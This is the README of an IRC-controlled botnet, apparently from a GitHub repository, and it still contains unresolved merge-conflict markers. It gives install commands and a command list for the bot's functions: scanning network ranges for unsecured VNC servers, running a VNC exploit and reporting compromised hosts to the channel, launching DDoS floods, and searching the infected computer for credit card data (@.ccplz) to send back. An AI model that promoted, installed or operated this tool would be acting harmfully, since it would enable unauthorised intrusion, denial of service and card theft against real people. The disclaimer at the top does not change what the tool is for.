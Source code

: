 # I am not responsible for any actions you make with this program.
# You will not use this program to commit illegal crimes.
# You take entire responsability if you damage your or someone else's computer.
# #### #
# This code is an IRC BOT that can connect to an IRC server with SSL
# The main purpose of this bot is to scan for Open/Unsecured VNC servers.
# The bot can also search for credit card informations in the computer that the bot is running.
# There is also a DDoS module made in Python, for taking out the target from the network.


# --- How to install ---

 git clone https://github.com/independentcod/PerlIRCSSL_VNCbypass.git
# .
 cd PerlIRCSSL_VNCbypass
# .
>>>>>>> 1bd9f276c1bc4c57858532e5222cfaf834f707ad
 chmod +x ./*
# (if using Debian, Kali or Ubuntu) 
 ./debian-installer.sh
# (elseif running CentOS)
 ./centos-installer.sh

<<<<<<< HEAD
# --- COMMANDS ---
#NOTE:The commands can be done via PRIVATE MESSAGE and CHANNEL also.
--this will scan 192.168.0.0/16 CIDR
@.scan 192.168.0.0-192.168.255.255 
---This needs to be done before each @.exploit
@.format 
---This runs the VNC exploit and reports the working VNCs to the channel
@.exploit 
---This kills the exploit run
@.stopexploit 
---This will ddos 127.0.0.1 on port 8080 tcp with 10000 packets in size with 1000 threads
@.ddos 127.0.0.1 8080 n 10000 1000 
---This kills the running ddos, do I even need to explain this?...
@.ddos.stop
---This will scan computer for credit card info and report in the channel.
@.ccplz
---below command is almost useless
@.ping 

# ---NOTE---
In order for bot to work you need to be operator in the channel, it also must be registered with services.
=======
# Follow the step-by-step installation and you are done.

# --- COMMANDS ---
The commands can be done via PRIVATE MESSAGE and CHANNEL also.
# this will scan 192.168.0.0/16 CIDR
@.scan 192.168.0.0-192.168.255.255 
# This needs to be done before each @.exploit
@.format 
# This runs the VNC exploit and reports the working VNCs to the channel
@.exploit 
# This kills the exploit run
@.stopexploit 
# this will ddos 127.0.0.1 on port 8080 tcp with 10000 packets in size with 1000 threads
@.ddos 127.0.0.1 8080 n 10000 1000 
# This kills the running ddos, do I even need to explain this?...
@.ddos.stop
# This will scan computer for credit card info and report in the channel.
@.ccplz
# mehhh
@.ping 

# ---NOTE---

In order for bot to work you need to be operator in the channel,
it also must be registered with services.
>>>>>>> 1bd9f276c1bc4c57858532e5222cfaf834f707ad
# YOU MUST autovoice your bots else you will not get any output in the server.

